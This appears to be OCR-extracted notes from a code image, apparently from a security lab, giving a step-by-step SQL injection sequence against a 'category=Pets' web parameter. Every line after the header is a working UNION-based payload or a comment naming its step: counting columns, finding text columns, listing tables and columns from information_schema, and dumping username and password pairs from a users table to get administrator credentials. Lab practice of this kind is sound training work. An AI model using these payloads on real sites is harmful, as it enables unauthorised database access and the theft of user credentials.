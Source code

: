 #determine number of col
category=Pets' ORDER BY 2--

#determine which col contain text data
category=Pets' UNION SELECT null,'B' --

#retrieve the list of tables in the DB
category=Pets' UNION SELECT null,table_name||'~'||table_type FROM information_schema.tables --

#find the name of the table with credentials (view VS base table)

#list column names from table users
category=Pets' UNION SELECT null,column_name||'~'||data_type FROM information_schema.columns WHERE table_name='users' --

#find the name of the columns for username,password

#list users(username,password) from table users
category=Pets' UNION SELECT null,username||'~'||password FROM users --

#find the administrator credentials



